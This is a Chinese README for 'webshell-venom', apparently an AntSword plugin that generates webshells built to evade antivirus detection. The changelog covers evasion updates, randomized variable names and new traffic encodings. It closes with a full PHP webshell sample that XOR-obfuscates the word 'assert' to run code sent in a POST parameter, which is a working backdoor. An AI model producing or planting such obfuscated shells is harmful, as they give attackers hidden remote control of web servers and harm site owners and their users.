 # as_webshell_venom
webshell-venom 蚁剑版 (thx @SardineFish & @Medicean)


原项目地址:

https://github.com/yzddmr6/webshell-venom


# 3.2 更新日志

鸽了这么久，我来更新啦

1. 更新免杀

2. 修复已知问题:宝塔在遇到header404时会解析到他的404模版上，而不是shell上，导致无法连接，故去除头部的404，如有需要自行添加

3. 变量全员随机化，不再有固定的变量名称

4. 增加流量传输编码方式并且兼容原版，具体看这里：
https://github.com/yzddmr6/webshell-venom/tree/master/php

#  2.0 更新日志

1. 代码重构

2. 增加 asp aspx 免杀类型

### 生成 php Shell 样例

```
<?php 
header('HTTP/1.1 404');
class COMI { 
    public $c='';
    function __destruct() {
        $_0 = "\xfc" ^ "\x9d";
        $_1 = "\x4" ^ "\x77";
        $_2 = "\xb4" ^ "\xc7";
        $_3 = "\x9b" ^ "\xfe";
        $_4 = "\x93" ^ "\xe1";
        $_5 = "\xe7" ^ "\x93";
        $db =$_0.$_1.$_2.$_3.$_4.$_5;
        return @$db($this->c);
    }
}
$comi = new COMI();
@$comi->c = $_POST['yzddmr6'];
?>
```
